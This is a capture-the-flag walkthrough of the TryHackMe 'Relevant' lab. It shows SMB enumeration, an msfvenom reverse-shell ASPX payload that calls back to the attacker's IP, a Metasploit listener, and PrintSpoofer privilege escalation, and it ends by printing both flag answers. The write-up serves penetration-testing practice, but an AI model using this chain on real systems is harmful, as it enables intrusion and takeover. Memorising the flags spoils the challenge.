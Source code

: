 # [Relevant](https://tryhackme.com/r/room/relevant)

![Relevant](./images/Relevant.png) 

[Relevant](https://tryhackme.com/r/room/relevant) is listed as an Medium room Penetration Testing Challenge. An overview of what we’ll be using is listed here:

* Nmap
* Smbclient
* 

![IP](./images/IP.png)

## Pre-Engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

* User.txt
* Root.txt

Additionally, the client has provided the following scope allowances:

* Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
* Locate and note all vulnerabilities found
* Submit the flags discovered to the dashboard
* Only the IP address assigned to your machine is in scope
* Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.

**Writeups will not be accepted for this room.**

### Enumeration & Exploitation

* Port scan with `Nmap`

	```
	nmap -A $IP -oN nmap-scan.txt
	```

	![nmap](./images/nmap.png)

* Listing smb client

	```
	smbclient -L \\$IP
	```

	![smbclient-list](./images/smbclient-list.png)

* Open list drive

	```
	smbclient \\\\$IP\\nt4wrksv
	```

	![smbclient-drive](./images/smbclient-drive.png)

* Download file `password.txt` and view the file

	![file-password](./images/file-password.png)

* Decode the `password.txt` code

	![decode](./images/decode.png)

* Crete payload reverse shell

	```
	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.17.127.223 LPORT=8888 -f aspx -o shell.aspx
	```

	![payload](./images/payload.png)

* Upload payload

	```
	smbclient \\\\$IP\\nt4wrksv
	put shell.aspx
	```

	![upload](./images/upload.png)

* Set listener on attacker machine

	```
	msfconsole -q -x "use exploit/multi/handler; set LHOST 10.17.127.223; set LPORT 8888; set PAYLOAD windows/meterpreter/reverse_tcp; exploit"
	```
	
	![listener](./images/listener.png)

* Access the payload to get reverse shell

	```
	curl http://10.10.234.131:49663/nt4wrksv/shell.aspx
	```

	![curl](./images/curl.png)

	![shell](./images/shell.png)

* Get the user flag

	![user](./images/user.png)

* Run `getprivs` to check our privileges

	![getprivs](./images/getprivs.png)

	 We are granted with **SeImpersonatePrivilege**

* Download **PrintSpoofer.exe** for exploit token **SeImpersonatePrivilege**

	```
	https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
	```

	![download](./images/download.png)

* Upload **PrintSpoofer.exe** on targer machine

	```
	cd "C:\inetpub\wwwroot\nt4wrksv"
	upload PrintSpoofer.exe
	```

	![printspoofer](./images/printspoofer.png)

* Run `cmd.exe` and run **PrintSpoofer.exe**

	```
	execute -f cmd.exe -i -H
	PrintSpoofer.exe -i -c cmd.exe
	```

	![cmd](./images/cmd.png)

* Get root file

	![root](./images/root.png)

### Answer the questions below

* User Flag

	`THM{fdk4ka34vk346ksxfr21tg789ktf45}`

	![user](./images/user.png)

* Root Flag

	`THM{1fk5kf469devly1gl320zafgl345pv}`

	![root](./images/root.png) 
